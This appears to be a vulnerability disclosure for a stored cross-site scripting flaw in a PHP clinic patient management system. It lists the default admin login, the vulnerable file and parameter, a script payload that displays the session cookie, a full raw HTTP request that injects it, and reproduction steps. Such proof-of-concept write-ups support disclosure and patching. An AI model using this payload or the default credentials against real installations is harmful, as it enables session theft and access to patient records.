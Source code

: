 # Clinic's Patient Management System v1.0 by oretnom23 has xss vulnerability

Author：hangZhaoYue

The password for the backend login account is: admin/admin123

Vulnerability details: There is a stored xss vulnerability in "update_medicine_details.php" of the Medicine Detaits module of the Medicines module in the background management system

vendors: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

Vulnerability File: pms/update_medicine_details.php

Vulnerability location: ip/pms/update_medicine_details.php?medicine_id=1&medicine_detail_id=1&packing=,packing

[+] Payload: ip/pms/update_medicine_details.php?medicine_id=1&medicine_detail_id=1&packing=<script>alert(/document.cookie/)</script> // Leak place ---> packing


```sql
POST /pms/update_medicine_details.php?medicine_id=1&medicine_detail_id=1&packing=%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/pms/update_medicine_details.php?medicine_id=1&medicine_detail_id=1&packing=%3Cscript%3Ealert(document.cookie)%3C/script%3E
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=0e9b9jpdjupmvl1dk6lq6dnmfe
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 92

hidden_id=1&medicine=1&packing=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&submit=
```

1. After we log in to the background, click on Medicines, then click on Medicines Details

![image](https://user-images.githubusercontent.com/48553402/176654143-135d24cf-48a5-4648-ac04-8b1948894f35.png)

2. Pull to the bottom to see the editing function, click the edit on the first line

![image](https://user-images.githubusercontent.com/48553402/176654221-c89f136f-3938-4f7f-ab1e-57bbf6cdc990.png)

3. Fill in our payload in the packing box (<script>alert(document.cookie)</script>),Click update to save

![image](https://user-images.githubusercontent.com/48553402/176654454-de82f23e-e359-47c4-ba32-bb5383674722.png)

4.After clicking save, you can see that our payload is executed, and the cookie pops up

![image](https://user-images.githubusercontent.com/48553402/176654845-76c713a7-8b67-4d04-a511-ddef173a00ea.png)

5.And also execute our payload when we access the Medicine Detaits of the Medicines module

![image](https://user-images.githubusercontent.com/48553402/176655025-1158c1f4-3beb-45a4-a3c2-52d7e97ec6af.png)
